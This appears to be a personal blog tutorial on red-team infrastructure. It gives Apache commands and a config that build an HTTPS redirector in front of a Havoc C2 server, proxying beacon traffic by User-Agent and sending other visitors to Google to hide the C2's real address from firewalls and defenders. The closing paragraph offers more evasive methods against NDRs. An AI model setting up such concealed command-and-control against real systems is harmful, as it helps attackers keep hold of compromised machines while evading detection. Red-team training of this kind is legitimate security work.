 ```yaml
---
layout: default
title: OopsBeacon
---
```


## ./Whoami

Hey everyone! My name is Abdullah. I’m here to keep improving — growing my skills and becoming a better writer. I write these blogs to share what I discover and to document my progress. I hope you find something helpful here, and I look forward to learning and improving together!

![Oops Beacon GIF](./images/133753c4-e1c8-4b36-879c-bf5d436f78b8_text.gif)


## But what is a "Redirector"?

Generally, a redirector is used to move traffic from one machine or server to another machine (which, in our case, is our C2). So the redirector will take our "Beacon" traffic and forward it to the real C2 server.

## Why Use a Redirector?

The main idea behind using a redirector is to hide your C2 server’s real IP address. For example, if you were conducting a red team engagement without a redirector and a firewall blocked your C2 IP, you’d be done for, and will not be able to continue the engagement. But if you had a redirector, it would hide the C2’s true IP, so the firewall would only block the redirector’s IP. In that case, you can just spin up a new redirector and stay operational.


![Redirector diagram](./images/Pasted%20image%2020250708212556.png)

-----

#### The Set-up You'll Need 

- VPS  (Redirector): You can use any cheap VPS with Apache2 installed . (10.10.10.3)
- VPS (C2 server) : You use any C2 framework — in my case will be using Havoc C2 . (10.10.10.2)
- Attacker Machine ( Kali linux) . (10.10.10.1)

> **Note:** You can use any Linux system for your redirector. 


----

### Installing and Configuring Apache


- First, we need to install Apache on our redirector . Simply , run `apt-get install apache2` .

![Apache install](./images/Pasted%20image%2020250708214542.png)


- After downloading apache , activate these modules 

```
sudo a2enmod proxy && sudo a2enmod proxy_http && sudo a2enmod proxy_ajp && sudo a2enmod rewrite && sudo a2enmod deflate&&sudo a2enmod headers && sudo a2enmod proxy_balancer && sudo a2enmod proxy_connect && sudo a2enmod proxy_html
```

Since we are working on HTTPS , we need to create SSL certificates (Self-signed)  :

```
openssl req -new -newkey rsa:2048 -nodes -keyout redirector.key -x509 -days 365 -out redirector.crt
```

Before moving on to launching apache2 , we need to open the port 443 on our firewall to allow the connections being made :

```
sudo ufw allow 443
```

> To install UFW,  just use `apt-get install ufw` > `sudo ufw enable`

Now, we want apache to use port 443 instead of 80 and we want to specify the path to our newly generated SSL certificate . 

```
nano /etc/apache2/sites-available/000-default.conf
```

Paste this :

```
<VirtualHost *:443>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

    SSLEngine on
    SSLProxyEngine on

    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off

    SSLCertificateFile /home/kali/redirector.crt
    SSLCertificateKeyFile /home/kali/redirector.key

    RewriteEngine on
    RewriteCond %{HTTP_USER_AGENT} ^Havoc [NC]
    RewriteRule ^(.*)$ https://10.10.10.2:443/$1 [P]  # C2 ip goes HERE 

    RewriteCond %{HTTP_USER_AGENT} !^Havoc [NC]
    RewriteRule ^(.*)$ https://www.google.com/ [R,L]

    ProxyPreserveHost On
</VirtualHost>


```

Change `SSLCertificateFile`  and `SSLCertificateKeyFile` to where you saved the generated SSL certificate . 


To elaborate further on what is going on the code here , 
```
RewriteEngine on
    RewriteCond %{HTTP_USER_AGENT} ^Havoc [NC]
    RewriteRule ^(.*)$ https://10.10.10.2:443/$1 [P]
```

Here when any request is sent to our redirector it will check the `User-agent` header and if the value is `Havoc` , then the redirector will allow the request to be sent to the C2 Server.



On the other hand ,

```
RewriteCond %{HTTP_USER_AGENT} !^Havoc [NC]
    RewriteRule ^(.*)$ https://www.google.com/ [R,L]
```

This is the opposite rule to the above , if the `User-Agent` value isn't `Havoc` then the request will be redirected to google . This way we keep our Havoc server safe from any outsider request . 



Lastly , we now start the Apache2 service  :

```
sudo service apache2 start
```

![Apache start](./images/Pasted%20image%2020250708223258.png)
> If you encounter SSL errors , try to enable SSL `sudo a2enmod ssl`


![Funny Beacon GIF](./images/4c62b8664b2aa5d5c16e080936e52a88.gif)



------


### Configuring Havoc HTTPS listener

![Havoc listener](./images/Pasted%20image%2020250712174456.png)

- In the "Hosts" field we put our redirector ip address . This would tell the listener to wait for incoming HTTPs requests from the redirector we specified. 

- Both "PortBind" and "PortConn" fields will be 443, since the redirector is going to listen on port 443, so will our C2 server .

- In the "User-agent" field, we will put the one the we specified earlier on the apache server config. In our case its "HAVOC".


Finally, click save and you are ready to go . Now the generated payloads will connect to our redirector instead of our Havoc c2 . In order to test it yourselves, you can use `netstat -ano | findstr 443` , you will see that the machine(victim) is connected to your redirector IP and there is no way to find the real C2 server IP.




## Conclusion 

I have other ideas to share when it comes to making "Redirectors" . There are more versatile ways that are more evasive and can evade "NDRs" , and that would be preformed in actual red team engagements . If you are interested, just tell me and I will be more than happy to provide :D . 
